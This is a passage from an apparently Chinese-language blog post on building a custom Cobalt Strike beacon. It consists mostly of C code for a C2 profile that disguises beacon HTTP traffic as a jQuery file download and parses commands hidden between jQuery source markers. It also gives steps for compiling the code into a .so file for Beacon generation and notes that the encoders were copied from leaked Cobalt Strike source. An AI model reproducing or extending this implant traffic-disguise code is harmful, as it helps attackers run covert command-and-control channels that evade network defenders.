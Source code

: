        id = cc2_rebind_http_post_send_param(id);  
        reqData = cc2_rebind_http_post_send_param(reqData);  
      
        char *postPayload = (char *) calloc(1, strlen(requestBody) + strlen(reqData) + 200);  
      
        sprintf(postPayload, requestBody, "jquery-3.3.2.min.js", id, strlen(reqData), reqData);  
        *outputData_len = strlen(postPayload);  
        *outputData = (char *) calloc(1, *outputData_len);  
      
        memcpy(*outputData, postPayload, *outputData_len);  
        free(postPayload);  
    }  
      
    void cc2_rebind_http_get_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {  
        char *start = "return-1},P=\"\r";  
        char *end = "\".(o=t.documentElement";  
      
        long long payload_len = 0;  
        char *payload = find_payload(rawData, rawData_len, start, end, &payload_len);  
      
        *outputData = cc2_rebind_http_recv_param(payload);  
        *outputData_len = strlen(*outputData);  
    }  
      
    void cc2_rebind_http_post_recv(char *rawData, long long rawData_len, char **outputData, long long *outputData_len) {  
        char *start = "return-1},P=\"\r";  
        char *end = "\".(o=t.documentElement";  
      
        long long payload_len = 0;  
        char *payload = find_payload(rawData, rawData_len, start, end, &payload_len);  
      
        *outputData = cc2_rebind_http_recv_param(payload);  
        *outputData_len = strlen(*outputData);  
    }  
    

同样的编译成so文件，在生成Beacon时指定so文件。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100049.png)

# 难点和疑问  

## 编码解码函数的实现思路

在编写c2profile.c文件的过程中，用到Base64、Mask的相关编码和解码函数。

但是在实际实践过程中会发现，从网上找到的c版Base64编码解码函数是不能直接套用的，同时Mask编码解码为CobaltStrike中自实现的相关函数。

查阅CobaltStrike文档会发现，对这些编码有进行相关描述，当时文档中是没有给出具体细节的。所以这里需要借助https://github.com/mai1zhi2/CobaltstrikeSource来查看具体的函数实现。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100050.png)

只需要在CobaltStrike的源码中找到对应的函数实现，然后C代码照猫画虎的方式，最后再调试调试就可以实现了。  
